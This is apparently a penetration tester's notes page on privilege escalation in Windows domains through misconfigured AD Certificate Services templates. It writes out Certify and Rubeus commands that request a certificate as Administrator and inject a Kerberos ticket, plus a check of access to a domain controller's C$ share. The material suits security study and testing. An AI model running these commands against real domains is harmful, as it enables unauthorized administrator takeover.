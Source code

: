 ```yaml
---
title: Windows Server privilege-escalation notes
---
```


## AD Certificate Services
Being within AD domain where the AD CS is installed, a domain user can request a X.509 certificate for different purposes (including AD authentication via PKINIT feature). AD CS has admin-defined **Certificate Templates** that specify available parameters and values of a requested certificate.

Most important values:

* CA Name - which server is the Certified Authority for the cert.
* Template Name - the name of the cert template.
* Enrollment Rights - who can request (which group of users) such a cert.
* PKI Extended Key Usage - what's the purpose of the cert.

`Certify` is a tool to enumerate and abuse misconfiguration in AD CS (vulnerable certificate templates).

```powershell
# Check possible vulnerabilitis in AD certificates
Certify.exe find /vulnerable
```

If any user can enroll this certificate (e.g. _Domain Users_ group), its purpose is defined as _Client Authentication_ (an user can auth to AD using this cert) and ENROLLEE_SUPLIES_SUBJECT flag is set (subject of the cert is defined by enrollee)... **privilege escalation**! Any user can enroll the certificate for Administrator and use it to perform AD authentication.

```powershell
# Request an certificate for Administrator
Certify.exe request /ca:<ca-name> /template:<template-name> /altname:Administrator

# Request Kerberos TGT using the received certificate
Rubeus.exe asktgt /user:Administrator /certificate:<cert.pfx> /password:password /ptt

# Check if privilege escalation works
dir \\<dc>\C$
```

**NOTE**: Certify.exe returns a `PEM` format certificate. It must be converted into the `PFX` format to use it with `Rubeus`:

```bash
openssl pkcs12 -in <cert.pem> -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out <cert.pfx>
```

> **RESOURCES**: [Awesome BlackHat explanation](https://www.youtube.com/watch?v=ejmAIgxFRgM), [corresponding blog post](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

Most `impacket` tools is able to work with TGT authentication.